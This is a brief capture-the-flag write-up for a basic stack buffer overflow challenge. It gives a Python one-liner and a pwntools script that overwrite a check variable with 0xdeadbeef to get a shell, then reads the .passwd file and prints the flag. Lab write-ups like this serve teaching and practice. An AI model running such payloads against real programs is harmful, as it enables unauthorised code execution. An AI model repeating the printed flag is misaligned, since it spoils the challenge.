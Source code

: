 # ***STACK BUFFER OVERFLOW BASIC 1***

From the given the challenge we have give the buffer value and the check variable have to changed to ```deadbeef```.

We have to give ``deadbeef`` in reverse order since the stack reads them in the reverse order.

```cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13``` 

```
from pwn import *

io = process("./ch13")
payload = b"A"*40
payload += p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ``1w4ntm0r3pr0np1s``
